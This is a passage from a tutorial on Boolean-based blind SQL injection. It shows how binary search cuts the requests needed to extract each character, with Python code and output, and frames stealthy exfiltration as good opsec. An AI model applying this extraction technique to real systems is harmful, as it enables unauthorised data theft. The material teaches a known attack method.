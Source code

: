 {% enddetails %}


## Optimisations with Binary Search

One quick and simple optimisation whenever we’re searching an ordered sequence is to apply binary search. This drastically reduces the max number of requests for each character from 96 to 7.^[This should make sense in bit terms. We only need 7 queries to figure out the 7 bits of an ASCII character. (The first bit is assumed to be 0.) Most Boolean-Based Blind SQLi throwaway scripts don't do binary search because the algorithm is tricky to get right. But it's useful to know, and can be applied to time-based blind SQLi as well for massive time discounts.]

This is a good thing for real life engagements: fewer iterations → less traffic → more sneaky → better opsec.

Normally, binary search relies on three outputs for a test: equals, less-than, and greater-than. But it is possible to make do with just two outputs: less-than, and greater-than-or-equals. If it’s less, we eliminate the upper half; otherwise, we eliminate the lower half.

```python
def binary_search(val: int, low: int, high: int) -> int:
    """Binary search for value between low (inclusive) and high (exclusive),
    assuming the guessed value is within range."""
    while low < high:
        mid = (low + high) // 2
        if low == mid:
            return mid # Found val.
        
        print(f'{low:3} - {high:3}\tGuess: {mid:4}')
        if val < mid:
            high = mid  # Eliminate upper half.
        else:
            low = mid   # Eliminate lower half.
```

Here’s a quick example, where we progress towards 125 in 7 steps (which will translate to 7 HTTP requests later on).

```python
>>> print('result:', binary_search(125, 0, 128))
  0 - 128       Guess:   64
 64 - 128       Guess:   96
 96 - 128       Guess:  112
112 - 128       Guess:  120
120 - 128       Guess:  124
124 - 128       Guess:  126
124 - 126       Guess:  125
result: 125
```

In the code snippets above, `val` is known for demo purposes. But in reality, `val` is unknown; it’s the data we’re trying to exfiltrate. To be more realistic, let's replace the `val` comparisons with a function `check_sql_value()` which sends network requests.

```python
def binary_search(sql_query: str, low: int, high: int) -> int:
	"""Find the value of sql_query using binary search, between
	low (inclusive) and high (exclusive). Assuming the guessed value
	is within range."""
    while low < high:
        mid = (low + high) // 2
        if low == mid:
            return mid # Found val.
        
        if check_sql_value(sql_query, mid):
            high = mid
        else:
            low = mid
```